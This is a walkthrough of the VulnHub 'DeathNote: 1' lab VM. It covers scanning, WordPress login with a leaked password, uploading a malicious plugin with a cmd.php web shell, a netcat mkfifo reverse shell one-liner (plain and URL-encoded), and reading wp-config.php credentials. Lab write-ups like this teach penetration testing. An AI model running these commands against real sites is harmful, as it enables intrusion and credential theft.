# DeathNote: 1 Walkthrough

## Preparation
1. Download Deathnote.ova file ([Deathnote.ova](https://download.vulnhub.com/deathnote/Deathnote.ova))

1. Add the Deathnote.ova file in the VirtualBox

1. Set the network adapter to Host-only Adapter
    * Attached to: **Host-only Adapter**
        

1. Start the Deathnote virtual machine
    * Turn on the Deathnote virtual machine from the VirtualBox  
      

1. Confirm the IP address of the Deathnote virtual machine from the attack virtual machine  
    * `sudo netdiscover -i enp0s3 -r 192.168.56.0/24`  
      
      
        * 192.168.56.100: DHCP Server
        * **192.168.56.114**: Deathnote Server  

1. Set the Deathnote IP address to the environment variance  
    * `export IP=192.168.56.114`  

## Reconnaissance
1. Do portscan using Nmap  
    * `sudo nmap -sC -sV -Pn -p- $IP -oN nmap_result.txt`  
      
        * -sC: Scan with default script
        * -sV: Show software name and the version
        * -Pn: Do not confirm communication before port scan (We have already confirmed the DC-2 IP address.)
        * -p-: Scan all ports (from 0 to 65535 ports)
        * -oN: Output the scan results to the specified file
    * As we see the nmap result, we can attempt to access of 22 (SSH Service) and 80 (HTTP Service) ports.  

1. Access to the HTTP Service  
    * Access with Web browser  
      
        - Redirect to the http://deathnote.vuln/wordpress  
        - Add "192.168.56.114 deathnote.vuln" to the "/etc/hosts"  

1. Scan the Wordpress site  
    * Use WPScan  
      
        - `wpscan --url http://deathnote.vuln/wordpress`  
        - We found the /wp-conten/uploads/ directory  

1. Access to the accessible directory  
    * Access to the /wp-conten/uploads/  
      
        - We found "notes.txt" and "user.txt" files  
        - We can assume that notes.txt" is password lists and "user.txt" is user lists  

1. Enumerate users  
    * Use WPScan  
      
        - `wpscan --url http://deathnote.vuln/wordpress/ --enumerate u`  
        - We found the "kira" user  

## Execution  
1. Access to the WordPress login form  
    * Access to the "wp-login.php" page  
        - Input the username as "kira" and the password as "password" -> We cannot login  
    * Go to kira page  
      
        - We found the "my fav line is iamjustic3"  
    * Access to the login form again  
      
        - Username: kira  
        - Password: **iamjustic3**  
        - Click the "The email is correct" button  

1. Prepare to create a backdoor  
    * Make PHP files  
      
      
    * Zip these files  
        - `zip evil banner.php cmd.php`  

1. Upload the zip file  
    * In the WordPress dashboard  
      
        - Plugins -> Add New -> Upload Plugin -> Browse -> Select evil.zip file -> Install Now -> Activate Plugin  

1. Establish the reverse shell session  
    * Use Netcat with a new terminal  
        - `nc -lvnp 4444`  
    * Make reverse shell command  
        - `rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.56.101 4444 > /tmp/f`  
    * Encode the command at https://www.urlencoder.org/  
        - The encoded command is "rm%20%2Ftmp%2Ff%3B%20mkfifo%20%2Ftmp%2Ff%3B%20cat%20%2Ftmp%2Ff%20%7C%20%2Fbin%2Fsh%20-i%202%3E%261%20%7C%20nc%20192.168.56.101%204444%20%3E%20%2Ftmp%2Ff"  
    * Access to the "cmd.php" page with the encoded command from the Web browser  
      
        - `http://deathnote.vuln/wordpress/wp-content/plugins/evil/cmd.php?cmd=rm%20%2Ftmp%2Ff%3B%20mkfifo%20%2Ftmp%2Ff%3B%20cat%20%2Ftmp%2Ff%20%7C%20%2Fbin%2Fsh%20-i%202%3E%261%20%7C%20nc%20192.168.56.101%204444%20%3E%20%2Ftmp%2Ff`  

1. Seize TTY Shell  
    * Use Python pty module  
        - `python3 -c 'import pty; pty.spawn("/bin/bash")'`  

1. Search WordPress setting file  
    * See the "wp-config.php" file  
      
        - `cd /var/www/deathnote.vuln/wordpress`  
        - `cat wp-config.php`  
        - DB_USER: **l**  
        - DB_PASSWORD: **death4me**  
    